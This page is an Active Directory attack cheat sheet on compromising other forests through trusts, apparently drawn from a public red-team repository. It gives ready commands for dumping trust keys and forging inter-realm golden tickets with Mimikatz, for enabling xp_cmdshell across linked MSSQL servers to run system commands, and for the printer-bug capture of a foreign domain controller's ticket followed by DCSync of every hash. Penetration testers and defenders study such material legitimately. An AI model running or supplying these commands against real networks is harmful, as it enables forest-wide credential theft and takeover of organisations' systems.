 # Active Directory Cross Forest Attacks

## Cross Forest Attacks

### Trust Tickets

_What is this?: If we have Domain Admin rights on a Domain that has a Bidirectional Trust relationship with another forest we can get the Trust key and forge our own inter-realm TGT._

The access we will have will be limited to what our DA account is configured to have on the other Forest!

#### Using Mimikatz

```text
#Dump the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#Forge an inter-realm TGT using the Golden Ticket attack
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:  
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"'
```

**Tickets -&gt; .kirbi format**

Then ask for a TGS to the external Forest for any service using the inter-realm TGT and access the resource.

Using Rubeus:

```text
.\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
```

### Abuse MSSQL Servers

* Enumerate MSSQL Instances: `Get-SQLInstanceDomain`
* Check Accessibility as current user: 

```text
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

* Gather Information about the instance: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
* Abusing SQL Database Links: 

_What is this?: A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also work across Forest Trust!_

Check for existing Database Links:

```text
#PowerUpSQL:
Get-SQLServerLink -Instace <SPN> -Verbose

#MSSQL Query:
select * from master..sysservers
```

Then we can use queries to enumerate other links from the linked Database:

```text
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')

#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose

#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```

Query execution:

```text
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```

### Breaking Forest Trusts

_What is this?:  TL;DR  If we have a bidirectional trust with an external forest and we manage to compromise a machine on the local forest that has enabled unconstrained delegation \(DCs have this by default\), we can use the printer bug to force the DC of the external forest's root domain to authenticate to us. Then we can capture its TGT, inject it into memory, and DCsync to dump its hashes, giving us complete access over the whole forest._

Some tools that we can use are:

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

#### Exploitation example

Start monitoring for TGTs with Rubeus:

```text
Rubeus.exe monitor /interval:5 /filteruser:target-dc$
```

Execute the printer bug to trigger the force authentication of the target DC to our machine

```text
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local
```

Get the base64 captured TGT from Rubeus and inject it into memory:

```text
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>
```

Dump the hashes of the target domain using Mimikatz:

```text
lsadump::dcsync /domain:external.forest.local /all
```

Detailed Articles:

* [Not A Security Boundary: Breaking Forest Trusts](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

## References

This page content was extracted from here:

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md\#domain-persistence" %}



